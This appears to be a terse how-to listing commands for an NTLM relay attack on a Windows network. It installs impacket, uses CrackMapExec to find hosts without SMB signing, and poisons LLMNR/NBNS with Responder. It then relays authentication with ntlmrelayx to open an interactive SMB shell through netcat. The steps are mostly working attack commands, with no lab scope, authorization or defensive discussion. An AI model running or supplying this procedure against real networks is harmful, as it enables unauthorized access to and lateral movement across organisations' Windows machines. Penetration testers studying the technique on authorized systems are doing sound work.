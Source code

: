 1. Update and upgrade the kali linux machine:
	apt update
	apt upgrade
2. Install impacket - git clone https://github.com/SecureAuthCorp/impacket
3. Create a list of vulnerable targets with CrackMapExec - crackmapexec smb [network address]/[subnet] --gen-relay-list targets
4. Turn off the SMB and HTTP settings in the responder configuration file - gedit /usr/share/responder/Responder.conf
5. Run responder to manipulate the network traffic - responder -I interface
6. Use ntlmrelayx from impacket package and wait for LLMNR/NBNS traffic to achieve SMB client interactive shell, supply the targets file from step 3:
	cd /impacket/examples
	python3 ntlmrelayx.py -tf [target file] -smb2support -i
7. On the windows clients search for non-existing share - \\dsfa
8. Open the interactive SMB client shell with netcat - nc 127.0.0.1 11000